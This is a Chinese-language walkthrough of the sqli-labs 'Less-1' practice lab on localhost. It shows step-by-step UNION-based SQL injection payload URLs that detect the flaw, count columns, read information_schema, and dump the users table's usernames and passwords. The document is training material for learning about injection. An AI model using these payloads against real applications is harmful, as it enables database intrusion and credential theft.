


# Less-1

请输入有数值的ID作为参数


尝试提交id=1，能够看到页面发生变化，出现Dumb用户的密码，更改id的数值会有不同的用户名及密码出现

```http
http://localhost:8080/sqli-labs-master/Less-1/?id=1
```


添加单引号后，页面抛出异常，说明sql语句里存在引号非法闭合，判断这里存在注入

```http
http://localhost:8080/sqli-labs-master/Less-1/?id=1'
```



## 1.1 判断sql注入的类型

判断是否为数字型注入，输入整型，发现页面没有发生变化，说明不是

```http
http://localhost:8080/sqli-labs-master/Less-1/?id=1 and 1=1
http://localhost:8080/sqli-labs-master/Less-1/?id=1 and 1=2
```

再判断是否为字符型注入，输入字符，发现页面发生变化，说明是

```http
http://localhost:8080/sqli-labs-master/Less-1/?id=1' and '1' = '1
```


```http
http://localhost:8080/sqli-labs-master/Less-1/?id=1' and '1' = '2
```


## 1.2 判断字段数量

知道了该注入点类型为字符型注入，接下来使用order by来判断字段的数量，order by后跟数字，当数字是4时页面报错，所以判断字段数量为3（url中使用%23或是–-+来代替注释#，这是为了注释掉limit0,1的显示限制）

```http
http://localhost:8080/sqli-labs-master/Less-1/?id=1' order by 1--+
http://localhost:8080/sqli-labs-master/Less-1/?id=1' order by 2--+
http://localhost:8080/sqli-labs-master/Less-1/?id=1' order by 3--+
http://localhost:8080/sqli-labs-master/Less-1/?id=1' order by 4--+
```


## 1.3 确定显示位置

使用联合查询union select来确定结果集的显示位置，这里可以获得字段2和字段3的信息，注意id=-1是为了查询一个不存在的用户账户，来保证返回信息是自己构造的联合查询结果

```http
http://localhost:8080/sqli-labs-master/Less-1/?id=-1' union select 1,2,3 --+
```


## 1.4 获取数据库信息

常用函数

| 函数名         | 功能                 |
| -------------- | -------------------- |
| user()         | 查看当前用户         |
| database()     | 查看当前使用的数据库 |
| group_concat() | 一次性获取数据库信息 |
| version()      | 查看数据库的版本     |

既然能够再2，3位置获得显示，那么我们使用联合查询利用函数来替换数字获得返回的数据库信息

```http
http://localhost:8080/sqli-labs-master/Less-1/?id=-1' union select 1,database(),version() --+
```


得到数据库版本为5.5.53，并且当前数据库为security

## 1.5 获取表名和列名

已知MySQL数据库版本是5.0以上，那么默认存在information_schema数据库，该数据库包含数据库内的所有数据库名，表名和列名，所以我们可以借助该库来查询security库里的表名和列名，当然要获得列名首先要先获得表名

```http
http://localhost:8080/sqli-labs-master/Less-1/?id=-1' union select 1,database(), group_concat(table_name) from information_schema.tables where table_schema = 'security' --+
```


得到security库内有四张表，不出意外users表内就有我们最终要获得的管理员账户密码，接着获取users表的列名

```http
http://localhost:8080/sqli-labs-master/Less-1/?id=-1' union select 1,database(), group_concat(column_name) from information_schema.columns where table_schema = 'security' and table_name='users' --+
```


## 1.6 获取用户名和密码

知道了表名和列名，最后一步dump出想要得到的信息就大功告成了

```http
http://localhost:8080/sqli-labs-master/Less-1/?id=-1' union select 1,group_concat(username),group_concat(password) from security.users --+
```




